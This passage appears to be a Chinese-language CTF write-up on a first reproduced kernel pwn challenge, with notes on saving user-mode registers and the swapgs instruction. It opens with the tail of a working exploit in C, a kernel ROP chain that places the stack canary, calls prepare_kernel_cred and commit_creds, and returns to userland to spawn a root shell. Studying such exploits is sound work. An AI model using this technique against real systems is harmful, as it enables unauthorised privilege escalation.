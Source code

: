 ```c
	}

	payload[i++] = canary;
	payload[i++] = 0;							//fake rbx
	payload[i++] = K(0xffffffff81126515);		//ret => pop rdi;ret
	payload[i++] = 0;
	payload[i++] = prepare_kernel_cred;
	
	payload[i++] = K(0xffffffff81394aab);		// pop rdx; ret
	payload[i++] = K(0xffffffff81394aab);		// pop rdx; ret
	
	payload[i++] = K(0xffffffff816dbd23);		// mov rdi, rax; call rdx
	payload[i++] = commit_creds;				
	payload[i++] = K(0xffffffff81a012da);		// swapgs ;popfq; ret
	payload[i++] = 0;				
	payload[i++] = K(0xffffffff81050ac2);		//iretq; ret				
	payload[i++] = (uint64_t)shell;	
	payload[i++] = user_cs;	
	payload[i++] = user_eflags;	
	payload[i++] = user_sp;	
	payload[i++] = user_ss;	


	core_write(fd,payload,0x800);
	core_copy(fd,0xf000000000000000+30*8);
	
	return 0;
}
```

第一道复现出来的kernel pwn，对题目中几点记录

* save_stats函数

asm函数的那部分具体汇编如此。
```Bash
   0x400b71 <save_stats+4>:	mov    rsi,cs
   0x400b74 <save_stats+7>:	mov    rcx,ss
   0x400b77 <save_stats+10>:	mov    rax,rsp
   0x400b7a <save_stats+13>:	pushf  
   0x400b7b <save_stats+14>:	pop    rdx
   0x400b7c <save_stats+15>:	mov    QWORD PTR [rip+0x2bc9ad],rsi        # 0x6bd530 <user_cs>
   0x400b83 <save_stats+22>:	mov    QWORD PTR [rip+0x2bc996],rcx        # 0x6bd520 <user_ss>
   0x400b8a <save_stats+29>:	mov    QWORD PTR [rip+0x2bc997],rdx        # 0x6bd528 <user_eflags>
   0x400b91 <save_stats+36>:	mov    QWORD PTR [rip+0x2bc9a0],rax        # 0x6bd538 <user_sp>

```

* swapgs指令
> use swapgs in the kernel's syscall entry point handler, then use GS segment overrides on some loads and stores like you would for thread-local storage, so the previously-hidden gs.base is used with the [base + idx*scale] addressing mode you use in each load or store instruction. e.g. something like mov [gs:0x10], rsp to save the user-space stack pointer and mov rsp, [gs:0x18] to load the kernel stack pointer.
